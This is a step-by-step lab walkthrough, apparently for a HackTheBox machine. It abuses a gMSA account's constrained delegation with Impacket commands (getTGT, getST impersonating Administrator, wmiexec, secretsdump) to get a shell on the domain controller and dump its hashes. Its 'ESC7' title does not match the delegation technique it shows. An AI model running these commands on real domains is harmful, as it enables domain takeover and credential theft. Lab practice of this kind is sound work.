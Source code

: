 # ESC7 Exploitation via gMSA Delegation – Step-by-Step

## 1️⃣ Get TGT for gMSA `svc_int$`
```bash
getTGT.py intelligence.htb/svc_int$ -aesKey 0ceb5372ef23f53495569d0c64710ce13f5d44684bbb2ad6ece5556b3dbe878b
```
### ✅ Why this tool?
Requests a **Kerberos TGT** for the gMSA account using its AES256 key.

### ✅ Why these options?
- `intelligence.htb/svc_int$` → domain and account.
- `-aesKey` → uses AES256 key for authentication.
- Saves ticket as `svc_int$.ccache`.

---

## 2️⃣ Request a Service Ticket Impersonating Administrator
```bash
KRB5CCNAME=svc_int$.ccache getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :a9f4721de917a40fd9010ad815708184
```
### ✅ Why this tool?
Obtains a **service ticket** to impersonate Administrator using KCD.

### ✅ Why these options?
- `KRB5CCNAME=svc_int$.ccache` → use gMSA TGT.
- `-spn` → target service SPN.
- `-impersonate Administrator` → impersonate admin user.
- `-hashes` → use NTLM hash of gMSA.

---

## 3️⃣ Export the Administrator Ticket
```bash
export KRB5CCNAME=$(pwd)/Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```
### ✅ Why?
Sets the environment to use the new Administrator ticket.

---

## 4️⃣ Execute Commands on DC using WMIExec
```bash
wmiexec.py -k -no-pass dc.intelligence.htb
```
### ✅ Why this tool?
Provides a **semi-interactive shell** over WMI using Kerberos.

### ✅ Why these options?
- `-k` → Kerberos auth.
- `-no-pass` → no password needed.
- Target: `dc.intelligence.htb`.

---

## 5️⃣ (Optional) Dump Domain Secrets
```bash
secretsdump.py -k -no-pass intelligence.htb/administrator@10.10.10.248
```
### ✅ Why this tool?
Extracts **NTLM hashes**, **LSA secrets**, and **Kerberos keys** from DC.

### ✅ Why these options?
- `-k` → use Kerberos.
- `-no-pass` → no password required.
- `administrator@10.10.10.248` → authenticates to DC.

---

## ✅ Why This Works?
1. Extract gMSA AES256 key → account has delegation rights.
2. Obtain TGT → authenticate as `svc_int$`.
3. Request S4U2Self & S4U2Proxy → impersonate Administrator.
4. Use Admin Ticket → gain privileged access.
5. Dump Hashes / Get Shell → full domain compromise.
